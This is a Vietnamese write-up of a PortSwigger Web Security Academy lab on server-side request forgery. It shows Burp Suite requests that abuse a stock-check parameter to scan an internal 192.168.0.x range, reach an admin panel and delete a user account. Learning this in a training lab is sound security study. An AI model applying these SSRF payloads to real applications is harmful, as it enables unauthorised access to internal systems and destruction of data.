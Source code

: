 # [Lab: Basic SSRF against another back-end system](https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-backend-system)

Lỗ hổng: SSRF attacks against another back-end system

Context: như [lab-basic-ssrf-against-localhost](../../../../../../learn/portswigger/Web%20Security%20Academy/Server-side%20request%20forgery%20%28SSRF%29/lab/apprentice/1.%20Basic%20SSRF%20against%20the%20local%20server.md)

**exploit**
1. Dùng burpsuite bắt request khi sử dụng chức năng check stock:
```http
POST /product/stock HTTP/1.1
Host: 0a34000e0453e884c1de856c003300a9.web-security-academy.net
...

stockApi=http%3A%2F%2F192.168.0.1%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D2%26storeId%3D1  
```
2. Gửi request đến intruder
3. Phần `payload position` sửa thành:
```http
POST /product/stock HTTP/1.1
Host: 0a34000e0453e884c1de856c003300a9.web-security-academy.net
...

stockApi=http://192.168.0.§§:8080/admin
```
4. Phần payloads:
![421ab92d648edd05d7f439e0bf44e86d.png](../../../../../../_resources/421ab92d648edd05d7f439e0bf44e86d.png)
5. Chạy attack, quan sát thấy với payload 116 sẽ có phản hồi 200
![b75a5427002062da0c89509307bed660.png](../../../../../../_resources/b75a5427002062da0c89509307bed660.png)
6. Gửi request đó đến repeater
7. Quan sát response lấy được url để xóa tài khoản của carlos `http://192.168.0.116:8080/admin/delete?username=carlos`
![3d64e9f791afd07bce8d00c24ebc4f55.png](../../../../../../_resources/3d64e9f791afd07bce8d00c24ebc4f55.png)
8. Thay đổi request ở repeater và gửi lại:
```http
POST /product/stock HTTP/1.1
Host: 0a34000e0453e884c1de856c003300a9.web-security-academy.net
...

stockApi=http://192.168.0.116:8080/admin/delete?username=carlos
```
=> Tài khoản carlos đã bị xóa. Solved